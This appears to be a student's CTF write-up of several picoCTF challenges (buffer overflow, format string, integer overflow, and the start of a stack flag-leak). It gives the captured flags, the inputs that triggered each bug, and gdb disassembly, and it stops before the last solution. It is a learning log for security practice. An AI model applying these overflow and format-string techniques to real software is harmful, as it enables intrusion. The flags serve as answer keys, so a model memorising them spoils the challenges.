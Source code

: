 # buffer overflow 0
**FLAG** - picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
## Approach
To start off I downloaded the vuln.c file from  picoctf, and went through the program till I noticed this section of the code
![image](https://github.com/user-attachments/assets/f79aeebb-49ba-4147-9e3a-48ee83f5ed6f)

the `gets()` function is infamous for being a massive vulnerability due to its potential for allowing overflows, this coupled with the fact that the `vuln` function used
the strcpy function(also known for causing potential vulnerability entry points)


![image](https://github.com/user-attachments/assets/c65f2724-dbd9-425a-a900-a515f4c0d48c)


knowing these facts, and also that the challenge was named buffer overflow, I assumed that entering a string longer than 100 characters would overflow , so I just entered an
arbitarily long string

```bash
root@DESKTOP-MPJ395R:/mnt/c/Users/Aditya/Downloads# nc saturn.picoctf.net 49747
Input: zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```
## Concepts Learnt
- Buffer Overflow

# format string 0
**FLAG** - picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}
## Approach
After connecting to the instance, I am met with these options

```bash
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
```

I knew the challenge involved format specifiers in someway or another , so I chose `Gr%114d_Cheese` (no other options look like format specifiers), after entering this I was prompted with another message from the terminal

```bash
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}
```
From these options I chose `Cla%sic_Che%s%steak` because again format specifiers, ultimately this gives me the key, I think this works because all the `%s`
specifiers allow us to print stuff from the programs memory

## Incorrect Tangents
- Tried messing around with the `format-string-0.c` file
## Concepts Learnt
- Format String Attacks

# Two-Sum
**FLAG**- picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_bc0adfd1}
The Problem States to enter two positive integers whose sum is less than zero, and one of the hints alludes to integer overflow, afterwards I check the source code
it uses two signed ints to account for a and b
```c
static int addIntOvf(int result, int a, int b) {
    result = a + b;
    if(a > 0 && b > 0 && result < 0)
        return -1;
    if(a < 0 && b < 0 && result > 0)
        return -1;
    return 0;
}
```
knowing that I just enter 2147483647 as both a and b, because the max limit of a signed int is 2^31-1 and that is equal to 2147483647, now this prolly is true for 2147483647 + any number that is within the limits of an integer, but it gets the job done and retrives the flag.

## Incorrect Tangents
- The Objective was pretty straightforward, had no errors
## Concepts Learnt
- Integer Overflow

# Flag Leak
**FLAG** - picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}
## Approach
We are given a file vuln.c and we need to utilize that to exploit the location of the flag. first off I disassemble it with gdb to get the following output
```assembly
  0x000000000000130e <+0>:     endbr64
   0x0000000000001312 <+4>:     push   rbp
   0x0000000000001313 <+5>:     mov    rbp,rsp
   0x0000000000001316 <+8>:     sub    rsp,0xd0
   0x000000000000131d <+15>:    mov    rax,QWORD PTR fs:0x28
   0x0000000000001326 <+24>:    mov    QWORD PTR [rbp-0x8],rax
   0x000000000000132a <+28>:    xor    eax,eax
   0x000000000000132c <+30>:    lea    rax,[rbp-0xd0]
   0x0000000000001333 <+37>:    mov    esi,0x40
   0x0000000000001338 <+42>:    mov    rdi,rax
   0x000000000000133b <+45>:    call   0x1289 <readflag>
   0x0000000000001340 <+50>:    lea    rax,[rip+0xd21]        # 0x2068
   0x0000000000001347 <+57>:    mov    rdi,rax
   0x000000000000134a <+60>:    mov    eax,0x0
   0x000000000000134f <+65>:    call   0x1130 <printf@plt>
   0x0000000000001354 <+70>:    lea    rax,[rbp-0x90]
   0x000000000000135b <+77>:    mov    rsi,rax
   0x000000000000135e <+80>:    lea    rax,[rip+0xd32]        # 0x2097
   0x0000000000001365 <+87>:    mov    rdi,rax
   0x0000000000001368 <+90>:    mov    eax,0x0
   0x000000000000136d <+95>:    call   0x1180 <__isoc99_scanf@plt>
   0x0000000000001372 <+100>:   lea    rax,[rip+0xd24]        # 0x209d
   0x0000000000001379 <+107>:   mov    rdi,rax
   0x000000000000137c <+110>:   call   0x1100 <puts@plt>
   0x0000000000001381 <+115>:   lea    rax,[rbp-0x90]
   0x0000000000001388 <+122>:   mov    rdi,rax
   0x000000000000138b <+125>:   mov    eax,0x0
   0x0000000000001390 <+130>:   call   0x1130 <printf@plt>
```

